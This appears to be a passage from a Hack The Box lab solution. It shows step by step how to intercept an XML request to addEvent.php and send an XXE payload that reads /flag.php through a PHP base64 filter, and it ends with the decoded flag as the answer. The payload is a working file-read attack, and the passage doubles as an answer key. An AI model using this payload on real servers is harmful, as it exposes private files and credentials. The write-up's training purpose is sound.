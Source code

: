 ![[HTB Solutions/CPTS/z. images/245b2e1e7ed43fe907a68ee2a4683dca_MD5.jpg]]

After successfully signing in as `a.corrales`, students will notice that there is a new feature of "adding events", thus, they need to click on "ADD EVENT":

![[HTB Solutions/CPTS/z. images/a0a831396c2375d591d5e9d545ccf887_MD5.jpg]]

With the Network tab of the Web Developer Tools open, students need to feed the fields any dummy data and inspect the POST request sent to `addEvent.php`, discovering that the request payload is `XML` data:

![[HTB Solutions/CPTS/z. images/9981e27bcefa9dcbec2d96a49c6dae38_MD5.jpg]]

Students need to instead send a malicious XXE payload that will read the flag file "/flag.php" via the the PHP filter `convert.base64-encode`:

Code: xml

```xml
<!DOCTYPE replace [<!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/flag.php"> ]>
<root>
    <name>&xxe;</name>
    <details>test</details>
    <date>2021-09-22</date>
</root>
```

![[HTB Solutions/CPTS/z. images/1be676a16d82c335401ee317897f1c67_MD5.jpg]]

![[HTB Solutions/CPTS/z. images/f03697b0392349d41e95db0c0136e60a_MD5.jpg]]

After sending the request and checking its response, students will attain the base64-encoded string `PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K`:

![[HTB Solutions/CPTS/z. images/804983bd463ac64d8787599ca60c6249_MD5.jpg]]

At last, students need to decode it to find the flag `HTB{m4573r_w3b_4774ck3r}`:

Code: shell

```shell
echo 'PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K' | base64 -d
```

```
┌──(kali㉿kali)-[~]
└─$ echo 'PD9waHAgJGZsYWcgPSAiSFRCe200NTczcl93M2JfNDc3NGNrM3J9IjsgPz4K' | base64 -d

<?php $flag = "HTB{m4573r_w3b_4774ck3r}"; ?>
```

Answer: `HTB{m4573r_w3b_4774ck3r}`